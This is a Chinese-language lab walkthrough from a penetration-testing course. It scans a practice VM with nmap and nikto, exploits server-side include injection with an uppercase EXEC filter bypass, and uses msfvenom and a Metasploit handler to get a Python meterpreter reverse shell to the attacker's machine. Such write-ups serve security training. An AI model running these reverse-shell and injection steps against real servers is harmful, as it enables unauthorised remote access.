


51CTO的网课，本篇利用nmap搜索开放端口，nikto、dirb挖掘敏感目录，利用SSI漏洞进行代码注入，执行python反弹shell，使用metasploit监听，获得shell。

本篇使用工具metasploit。

<!-- more -->

# 使用命令

## SSI

SSI 注入全称Server-Side Includes Injection，即服务端包含注入。SSI 是类似于 CGI，用于动态页面的指令。SSI 注入允许远程在 Web 应用中注入脚本来执行代码。

SSI是嵌入HTML页面中的指令，在页面被提供时由服务器进行运算，以对现有HTML页面增加动态生成的内容，而无须通过CGI程序提供其整个页面，或者使用其他动态技术。

从技术角度上来说，SSI就是在HTML文件中，可以通过注释行调用的命令或指针，即允许通过在HTML页面注入脚本或远程执行任意代码。

## metasploit

``` bash
#生成shell
msfvenom -p python/meterpreter/reverse_tcp lhost=攻击机IP lport=攻击机端口 -f raw > shell.py

#开启监听
msfconsole
>use exploit/multi/handler
>set payload python/meterpreter/reverse_tcp
>set lhost 攻击机IP
>set lport 攻击机端口
>run
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，一个web服务，`nikto`挖掘`80`端口web信息：

``` bash
nmap -sV 192.168.1.118
nikto -host http://192.168.1.118/
```


2. 访问页面，`.shtml`的后缀可能有ssi漏洞可以利用：




3. 测试命令，大写`EXEC`绕过过滤：


4. 生成shell：

``` bash
msfvenom -p python/meterpreter/reverse_tcp lhost=192.168.1.114 lport=4444 -f raw > shell.py
```


5. 开启监听：

``` bash
msfconsole
>use exploit/multi/handler
>set patload python/meterpreter/reverse_tcp
>set lhost 192.168.1.114
>run
```


6. 复制shell到apache根目录下，开启apache服务：


7. 网页SSI注入命令下载shell脚本：


8. 修改shell脚本权限，增加可执行权限：



9. 注入执行命令，msf获得反弹shell：


10. 官方教程说本机没有设置flag，不过权限不够也访问不了`/root`，尝试提权无从下手，太菜了，以后再回来看看。

# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)
2. [SSI注入漏洞](https://blog.csdn.net/qq_40657585/article/details/84260844)